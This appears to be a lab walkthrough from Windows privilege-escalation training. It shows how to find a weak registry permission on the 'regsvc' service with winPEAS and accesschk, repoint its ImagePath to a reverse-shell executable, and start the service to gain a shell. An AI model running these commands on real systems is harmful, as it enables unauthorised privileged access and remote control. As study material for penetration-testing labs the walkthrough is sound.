 1.Run winPEAS to check for service misconfigurations:

```
.\winPEASany.exe quiet servicesinf
```


2.Note that the “regsvc” service has a weak registry entry. We can confirm this with PowerShell:


```
PS> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc |
Format-List
```

3.Alternatively accesschk.exe can be used to confirm:

```
.\accesschk.exe /accepteula -uvwqk

HKLM\System\CurrentControlSet\Services\regsvc
```

4.Overwrite the ImagePath registry key to point to our reverse shell executable:


```
reg add
HKLM\SYSTEM\CurrentControlSet\services\regsvc /v
ImagePath /t REG_EXPAND_SZ /d
C:\PrivEsc\reverse.exe /f
```

5.Start a listener on Kali, and then start the service to trigger the exploit:
```
net start regsvc
```